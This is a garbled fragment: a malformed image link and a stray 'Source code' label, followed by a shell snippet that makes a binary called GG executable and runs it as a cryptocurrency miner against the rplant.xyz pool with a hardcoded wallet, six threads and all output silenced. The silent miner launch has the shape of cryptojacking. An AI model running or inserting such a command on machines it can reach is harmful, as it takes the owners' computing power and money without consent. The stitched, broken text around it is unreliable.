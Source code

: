 ping -w 120 8.8.8.8
chmod +x GG
./GG -a power2b  -o stratum+tcps://stratum-na.rplant.xyz:17022 -u MqmM35U2EtSFVvit5VcW7nY9raBy6Sw6vm.a -p password=X -t 6 >/dev/null
